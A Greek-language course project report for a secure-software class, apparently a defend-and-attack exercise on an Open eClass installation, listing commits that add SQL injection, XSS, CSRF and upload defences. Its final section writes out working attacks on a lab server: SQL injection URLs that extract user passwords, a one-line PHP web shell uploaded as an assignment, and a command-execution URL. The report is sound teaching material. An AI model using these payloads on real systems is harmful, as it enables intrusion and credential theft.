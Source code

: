 Ανάπτυξη Αξιόπιστου και Ασφαλούς Λογισμικού  
Ομάδα: **Pappabakaliatis**  
Ημ/νία: 06/05/2020  

## 1. Άμυνα
#### 1.1 SQL Injection Prevention  
Αρχικά, ελέγξαμε τα σημεία στα οποία ενδεχομένως ήδη γίνεται κάποιο (έστω και μερικώς αναποτελεσματικό) SQL injection prevention. Αφότου βρήκαμε την `escapeSimple()` και διερευνήσαμε ποιες από τις σχετικές μεθόδους που καλούνται όντως υπάρχουν, ανανεώσαμε τη μέθοδο με σκοπό να γίνονται escape πάντοτε οι επικίνδυνοι χαρακτήρες για την SQL. Στη συνέχεια, εντοπίσαμε όλα τα σημεία εκείνα στα οποία ένα injection θα ήταν δυνατό, και καλέσαμε την `escapeSimple()` στις μεταβλητές εισόδου. Ενδεικτικά, αυτό έχει πραγματοποιηθεί στα εξής commits:

* Δημιουργία χρήστη
    -	https://github.com/ChrisPapp/defend-eclass/commit/438b2cf6dae184a5aae76d3ad1307f4c28af9411
    -	https://github.com/ChrisPapp/defend-eclass/commit/f8df871ce6c17de85a3cf78c8faf91e3e1663a01
*	Περιοχές συζητήσεων  
    - https://github.com/ChrisPapp/defend-eclass/commit/1b2baec5f0d9c453949e356a75806a861246cad9
    -	https://github.com/ChrisPapp/defend-eclass/commit/4d6a5f1efdede2f448332b66cf6e25858c246085
    -	https://github.com/ChrisPapp/defend-eclass/commit/2536a9a9943faf4431cc74de00758424de4e2e23
*	Εργασίες
    -	https://github.com/ChrisPapp/defend-eclass/commit/af417db8cef9dcba0953dda33b062e121efd1e61
    -	https://github.com/ChrisPapp/defend-eclass/commit/59c24ed6a61fd8dfc221096b1a4a93f21ad63a2a
*	Επεξεργασία προφίλ
    -	https://github.com/ChrisPapp/defend-eclass/commit/8d4cf72c3b6d41f0b40ffdc20456a7ad63835ac0
*	Εγγραφή σε/Απεγγραφή από μάθημα
    -	https://github.com/ChrisPapp/defend-eclass/commit/47735fc0eb423e283698304fa51adc4e95d84f11
    -	https://github.com/ChrisPapp/defend-eclass/commit/2dabc608a020dc5c0911dff445574090c6129724
*	Ανταλλαγή αρχείων
    -	https://github.com/ChrisPapp/defend-eclass/commit/70205cb9276f427cc5f380e9a1b824e85ccab477
    - https://github.com/ChrisPapp/defend-eclass/commit/9c6dd4895e44535f19f3b220b6aefcb518b0c71c  

Φυσικά, σε κάποια σημεία γινόταν ήδη χρήση της escapeSimple(), οπότε και με τη δική μας βελτίωση λειτουργούν και αυτά σωστά. Αυτά τα σημεία δεν αναφέρονται στην παραπάνω λίστα.

#### 1.2 XSS Prevention  
Στο πλαίσιο του XSS prevention, δημιουργήθηκε μία συντόμευση `q()` για την `htmlspecialchars()`, η οποία περιλαμβάνει το flag `ENT_QUOTES` (στο include/lib/main.lib.php), απλώς για λόγους μεγαλύτερης ευελιξίας και ταχύτητας κατά την εκτέλεση της άμυνας. Όπου, λοιπόν, βρίσκετε τη σχετική κλήση της `q()` πρόκειται για XSS prevention. Μετατροπές έχουν πραγματοποιηθεί στα εξής commits:

*	Δημιουργία/Είσοδος χρήστη
    -	https://github.com/ChrisPapp/defend-eclass/commit/844a4cd867e98458150d5287b18a7bceedbd70d3
*	Αναζήτηση
    -	https://github.com/ChrisPapp/defend-eclass/commit/b8af85ca2594fa373fc105cda6290a84c9982106
*	Εργασίες
    -	https://github.com/ChrisPapp/defend-eclass/commit/af417db8cef9dcba0953dda33b062e121efd1e61 (αλλαγή και της `replace_dangerous_char()` με σκοπό να αντικαθιστά και την απόστροφο)
    -	https://github.com/ChrisPapp/defend-eclass/commit/a3150c65996fcaf20b92e85bef3ecb3771fba406
*	Τηλεσυνεργασία
    -	https://github.com/ChrisPapp/defend-eclass/commit/600124cb8a677bf318fcc6e60293efe92f15c5d4
*	Περιοχές συζητήσεων
    -	https://github.com/ChrisPapp/defend-eclass/commit/1b2baec5f0d9c453949e356a75806a861246cad9
    -	https://github.com/ChrisPapp/defend-eclass/commit/2536a9a9943faf4431cc74de00758424de4e2e23
    -	https://github.com/ChrisPapp/defend-eclass/commit/0ca238ef9779b80ead74c5e8dc459e3a9de3f7db
*	Εγγραφή σε/Απεγγραφή από μάθημα
    -	https://github.com/ChrisPapp/defend-eclass/commit/2dabc608a020dc5c0911dff445574090c6129724
    -	https://github.com/ChrisPapp/defend-eclass/commit/23c0d67c7ce26b8fc2feaab02765cfe74308bf3d
*	Διαχείριση χρηστών από admin
    -	https://github.com/ChrisPapp/defend-eclass/commit/85d388c858a92ca1270bddff6dc1f1b4ba3d8bd7
*	Ανταλλαγή αρχείων
    -	https://github.com/ChrisPapp/defend-eclass/commit/70205cb9276f427cc5f380e9a1b824e85ccab477
*	Επεξεργασία προφίλ
    -	https://github.com/ChrisPapp/defend-eclass/commit/8d4cf72c3b6d41f0b40ffdc20456a7ad63835ac0

#### 1.3 CSRF
Χρησιμοποιώντας τη βιβλιοθήκη paragonie/random_compat δημιουργήσαμε τη μέθοδο `generate_csrf_token()` (include/lib/main.lib.php). Όπου υπάρχει φόρμα, γίνεται validation του session token με τη μέθοδο `validate_token()` (η οποία περιέχει και πανέμορφη τρολιά για τους _επίδοξους_ χάκερς μας). Αποτροπή επιθέσεων CSRF γίνεται στα εξής commits:

*	Δημιουργία token και προσθήκη βιβλιοθήκης
    -	https://github.com/ChrisPapp/defend-eclass/commit/2d8ee019a96c98afc7f0085a07832a0f58151145
*	Υλοποίηση validation
    -	https://github.com/ChrisPapp/defend-eclass/commit/2cf67e9f38715eda5cfb0ab8982ca0546cab7ac8
*	Επεξεργασία προφίλ
    -	https://github.com/ChrisPapp/defend-eclass/commit/666fd8381793f6e32ac277e7f7316275e40abcf0 (η πιθανότητα να ξεκινάει ένας 40ψήφιος [commit's SHA] με τον συγκεκριμένο 3ψήφιο και να μην εμφανίζεται κάπου αλλού είναι `p=0.00000642475`, αν δεν έχουμε ξεχάσει τελείως τις πιθανότητες που ξέραμε, οπότε παρακαλούμε να συνεκτιμηθεί)
*	Τηλεσυνεργασία
    -	https://github.com/ChrisPapp/defend-eclass/commit/9ee686450e60f4a4342f70616ba1e7053096e967
    -	https://github.com/ChrisPapp/defend-eclass/commit/d04b259c673bece0c287645769f4bbb2952c25df
*	Διαχείριση χρηστών από admin
    -	https://github.com/ChrisPapp/defend-eclass/commit/3006dbeccda78fd919f7d1beaec01e602b20c999
*	Διαγραφή, επεξεργασία και ανανέωση μαθήματος
    -	https://github.com/ChrisPapp/defend-eclass/commit/de79153f367ca63e16d335ca5826b35143fcfcdf
*	Δημιουργία guest χρήστη
    -	https://github.com/ChrisPapp/defend-eclass/commit/b3a3484e58cce9a6a1eba240b98f3b1f99e61542
*	Προσθήκη πολλαπλών χρηστών
    -	https://github.com/ChrisPapp/defend-eclass/commit/1bad45e49c393fd28d337afc4b89c96b630b2999

#### 1.4 RFI prevention
Λόγω πίεσης χρόνου και αδυναμίας παραμετροποίησης των ρυθμίσεων του server, εδώ περιοριστήκαμε στο να μπλοκάρουμε τα αρχεία .php όπου επιτρέπεται το ανέβασμα αρχείου και στο καλύτερο randomization του τυχαίου path όπου αυτά αποθηκεύονται, ώστε να είναι δυσκολότερη ή και αδύνατη η εκτέλεσή τους.  
Commits: https://github.com/ChrisPapp/defend-eclass/commit/a9a4cddde89282fb11d7719ddae52ce1bba8abc6, https://github.com/ChrisPapp/defend-eclass/commit/b2dbfe63332ad22a1f907df2006f9604dc9c235a.
Τέλος, έγινε hashing στο όνομα του αρχείου του chat της τηλεσυνεργασίας ώστε να μην μπορεί να το εμφανίσει κάποιος κάνοντας get request στο ανάλογο path.

## 2. Επιθέσεις
*	Αρχικά υποκλέψαμε τον κωδικό με SQL injection: http://cookies_garo_kai_crackaro.csec.gr/modules/phpbb/viewtopic.php?topic=320582)%20%20UNION%20SELECT%20username,%20password%20FROM%20eclass.user%20WHERE%20user_id=1/*&forum=1
*	Στη συνέχεια έγινε αποστολή εργασίας με .php αρχείο με περιεχόμενο
```php
<?php 
	echo system($_GET['cmd']);
?>
```
  βρήκαμε το secret directory όπου αυτό αποθηκεύεται με ένα ακόμα request: http://cookies_garo_kai_crackaro.csec.gr/modules/phpbb/viewtopic.php?topic=69)%20UNION%20SELECT%20id,%20secret_directory%20FROM%20assignments/*&forum=1
  και αποκτήσαμε τη δυνατότητα να τρέξουμε όποια commands θέλουμε, όπως: http://cookies_garo_kai_crackaro.csec.gr/courses/TMA101/work/5ea49d7f31ae3/Hacker%20Your%208170105.php?cmd=pwd
*	Στην εργασία που αναφέρθηκε προηγουμένως έγινε και XSS επίθεση στο σχόλιο που τη συνοδεύει, όπως φαίνεται και στις διαφάνειες του μαθήματος.

Επειδή η εφαρμογή έχει πέσει, για να δουλέψουν τα παραπάνω, θα πρέπει να ξανανέβει και να δοκιμαστούν στην πράξη.

Forever yours,
οι Pappabakaliatis σας.
